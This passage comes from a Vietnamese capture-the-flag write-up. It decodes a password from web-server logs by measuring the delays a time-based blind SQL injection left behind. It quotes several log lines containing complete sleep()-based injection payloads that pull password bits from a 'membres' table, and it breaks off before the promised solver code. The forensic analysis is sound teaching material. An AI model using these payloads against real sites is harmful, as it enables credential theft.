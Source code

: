 ```

>Sau khi nhận được response từ request trước, attacker ngay lập tức gửi ngay request tiếp theo

Như thế thì khoảng thời gian giữa 2 lần request tới trên log chính là khoảng thời gian giữa request và response của request đó. Để tìm flag, lúc này sau khi hiểu câu truy vấn, ta không cần đổi base64 chi nữa, chỉ việc lấy gian thời của mỗi line trong log đề cho trừ nhau, nếu request thuộc 6 bits đầu thì so sánh với 2s or 4s or 6s, nếu là bit thứ 7 thì so sánh với 2s or 4s; dùng một biến phụ để nối các chuỗi ’00’, ’01’, ’10’, ’11’ lại thành chuỗi nhị phân, sau đó đổi qua hệ 10 rồi sang ASCII. Quan trọng nằm ở khoảng thời gian 0s, hai request cách nhau 0 giây có thể là:

>True nếu 2 bits là ’00’, request query bit thuộc 6 bits đầu

>Select NULL nếu không nằm trong field/ case

>Error, vd: request hỏi bit thứ 7 nhưng chỉ có 6 bits, hay truy vấn kí tự thứ 21 nhưng chỉ có 20 kí tự

```
192.168.1.23 - - [18/Jun/2015:12:13:10 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),1,1),substring(bin(ascii(substring(password,2,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:16 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),3,1),substring(bin(ascii(substring(password,2,1))),4,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:20 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),5,1),substring(bin(ascii(substring(password,2,1))),6,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:22 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),7,1)),char(48),char(49)) when 1 then sleep(2) when 2 then sleep(4)  end) from membres where id=1) HTTP/1.1" 200 832 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:22 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,3,1))),1,1),substring(bin(ascii(substring(password,3,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:17:02 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,21,1))),1,1),substring(bin(ascii(substring(password,21,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1007 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:17:02 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,21,1))),3,1),substring(bin(ascii(substring(password,21,1))),4,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1007 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:17:02 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,21,1))),5,1),substring(bin(ascii(substring(password,21,1))),6,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1007 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:17:02 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,21,1))),7,1)),char(48),char(49)) when 1 then sleep(2) when 2 then sleep(4)  end) from membres where id=1) HTTP/1.1" 200 833 "-" "-"
```

Đây là source code giải quyết thử thách

```